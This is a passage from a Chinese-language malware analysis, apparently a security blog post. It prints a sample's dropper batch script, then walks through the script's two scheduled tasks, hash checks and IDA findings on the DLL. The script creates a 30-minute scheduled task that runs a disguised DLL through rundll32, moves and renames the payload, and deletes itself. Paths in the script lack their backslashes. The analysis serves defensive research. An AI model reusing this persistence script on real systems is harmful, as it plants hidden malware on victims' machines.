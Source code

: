 ```
schtasks /create /sc minute /mo 30 /f /tn Feed /tr "rundll32.exe '%USERPROFILE%ViewerInformationPolicysqmap.dll', calldll"
move %AppData%s %USERPROFILE%ViewerInformationPolicy
ren %USERPROFILE%ViewerInformationPolicys sqmap.dll
del %0
```

bat文件的语法还是比较简单明了的，通过bat的内容，我们可以得知程序获取了计算机的COMPUTERNAME和一个随机值写入到了%USERPROFILE%InetLogsPoolagnia，然后程序设置了两个计划任务，并且将%appdata%下的s文件移动到了%USERPROFILE%ViewerInformationPolicys并重命名为sqmap.dll

计划任务1：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t012c47a66cf4db4781.png)

计划任务2：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0122061dcf5e4d9b6a.png)

我们查看计划任务1所指定的目录文件可以发现暂时是0kb

[![](https://p0.ssl.qhimg.com/t0187813d5e8d7464cd.png)](https://p0.ssl.qhimg.com/t0187813d5e8d7464cd.png)

查看计划任务2所指定的任务，可以看到文件已经成功移动过来：

[![](https://p3.ssl.qhimg.com/t014c4fc84935bb47bc.png)](https://p3.ssl.qhimg.com/t014c4fc84935bb47bc.png)

通过hash查询可以确定s和sqmap.dll是同一个文件：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01f5594e4f46799885.png)

且我们通过计划任务2可以得知，这里是通过rundll32.exe 调用了这个名为sqlmap.dll的calldll方法。<br>
目前vt(2020-06-24)上关于sqlmap.dll检出量为0：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01fa40a5926b3f2493.png)

我们可以对sqlmap.dll进行一个简单的分析。<br>
首先通过IDA加载sqlmap.dll，我们可以得到PDB信息：C:UsersspartanDocumentsVisual Studio 2010new projectsfrontendReleasetest.pdb

该pdb以前未出现过，而且结合test.pdb的字眼，该样本可能是攻击者开发的测试版本。

[![](https://p1.ssl.qhimg.com/t01af02996ddd248456.png)](https://p1.ssl.qhimg.com/t01af02996ddd248456.png)

calldll在导出表中

[![](https://p2.ssl.qhimg.com/t01010767fbd26bf22f.png)](https://p2.ssl.qhimg.com/t01010767fbd26bf22f.png)
